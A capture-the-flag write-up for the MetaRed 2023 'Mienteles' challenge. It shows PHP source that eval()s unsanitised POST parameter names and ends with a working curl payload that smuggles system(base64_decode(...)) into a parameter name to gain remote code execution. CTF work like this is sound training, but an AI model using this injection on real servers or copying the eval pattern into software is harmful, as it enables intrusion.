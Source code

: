 # MetaRed CTF 2023 - Mienteles

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

In this challenge we given the source code, let's just see the source code.

```php
 <?php

if(isset($_GET['src'])){
    highlight_file(__FILE__);
    die();
}
?>
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Mienteles Telecomunicaciones</title>
    
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
</head>
<body>
    
    <nav class="navbar navbar-expand-lg navbar-dark" style="background-color:#005F9F">
        <a class="navbar-brand">Mienteles</a>
        <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
            <span class="navbar-toggler-icon"></span>
        </button>
        <div class="collapse navbar-collapse" id="navbarNav">
            <ul class="navbar-nav">
                <li class="nav-item active">
                    <a class="nav-link" href="#">Inicio</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="#">Servicios</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="#">Contacto</a>
                </li>
            </ul>
        </div>
    </nav>

    
 
    <div class="text-center">
        <img src="./mienteles.svg" alt="">
    </div>
    
    <section class="py-5">
        <div class="container">
            <h2 class="text-center">Nuestros Servicios</h2>
            <div class="row">
                
                <div class="col-md-4">
                    <div class="card">
                        <img src="servicio1.jpg" class="card-img-top" alt="Servicio 1" style="height:518px">
                        <div class="card-body">
                            <h5 class="card-title">Bug Bounty Program</h5>
                            <p class="card-text">Tenemos publicado nuestro programa de Bug Bounty. Si encuentras un RCE, no te pagamos :).</p>
                        </div>
                    </div>
                </div>
                
                <div class="col-md-4">
                    <div class="card">
                        <img src="servicio2.jpg" class="card-img-top" alt="Servicio 2" style="height:518px">
                        <div class="card-body">
                            <h5 class="card-title">Internet</h5>
                            <p class="card-text">Tenemos planes de internet para usted</p>
                        </div>
                    </div>
                </div>
                
                <div class="col-md-4">
                    <div class="card">
                        <img src="servicio3.jpg" class="card-img-top" alt="Servicio 3"  style="height:518px">
                        <div class="card-body">
                            <h5 class="card-title">Flag</h5>
                            <p class="card-text">Aquí estará tu flag: </p>
                            <!-- Accede a ?src -->
                            <?php
                                error_reporting(0);
                                if ($_POST['keyl']==md5(date('Y-m-d'))){
                                            foreach($_POST as $name => $value){        
                                                $assign = "\$" . $name . "='".preg_replace('([^A-Za-z0-9@. _-])', '', $value)."';";
                                                eval($assign);
                                            }
                                }
                                else{
                                    echo "No podes hackearme";
                                }

                            ?>
                        </div>
                    </div>
                </div>
            </div>
        </div>
    </section>

    
    <footer class="footer text-white text-center py-3" style="background-color:#005F9F">
        <div class="container">
            <p>&copy; 2023 Mienteles Telecomunicaciones. Todos los derechos reservados.</p>
        </div>
    </footer>

    
    <script src="https://code.jquery.com/jquery-3.3.1.slim.min.js"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</body>
</html>

```

From the source code, we know that to get the flag we need to do post request with key keyl which is must to be equal to \`md5(date('Y-m-d'))\`.

We know using md5 function potential to hash collision and in the code the program is md5 hashed date of current date, which mean it's easy to get the hash by using php to do md5 hash.

{% code title="md5.php" lineNumbers="true" %}
```php
<?php
    echo md5(date('Y-m-d'));
?>
```
{% endcode %}

And then in local i created replicated php code like on server.

{% code title="index.php" lineNumbers="true" %}
```php
<?php
    if ($_POST['keyl']==md5(date('Y-m-d'))){
                foreach($_POST as $name => $value){        
                    $assign = "\$" . $name . "='".preg_replace('([^A-Za-z0-9@. _-])', '', $value)."';";
                    echo $assign;
                    eval($assign);
                }
    }
    else{
        echo "No podes hackearme";
    }
?>
```
{% endcode %}

And just run the index.php and used result from md5.php as value of key \`keyl\` post data.

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

As you can see, the local server return with `$keyl='6bde8c88ffee17ea27c8e281299dcf47';` which our post data is set as variable and value in php and based on the source code, the result will used in `eval` function which is we know the `eval` function is evil.

Then i try add more post data and if i try to called function system as post value, our input got cleaned.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

After try a few times, i realized that we can manipulate the key post data. For basic i try add \`'\` in key value and i got something interesting.

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

The result return with `$cmd'` and the local server is crashed/error, maybe we can get remote code execution from it, after try a few times finaly i can make the local server return with proper php code and the local server is not crashed/error.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

But we have problem, if we try to run command with space it will replace it with `_` .

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

But we can bypass it by base64 encoded the command.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

and we can try it on server using below command.

```sh
curl -X POST https://mienteles.ctf.cert.unlp.edu.ar/ --data "keyl=6bde8c88ffee17ea27c8e281299dcf47&cmd;system(base64_decode('bHMgLWxhCg'));//'=12);"
```

And we successfully get remote code execution.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Flag: flag{N1c3!No\_B0untY\_But\_Th1s\_1s\_ur\_fl4G}
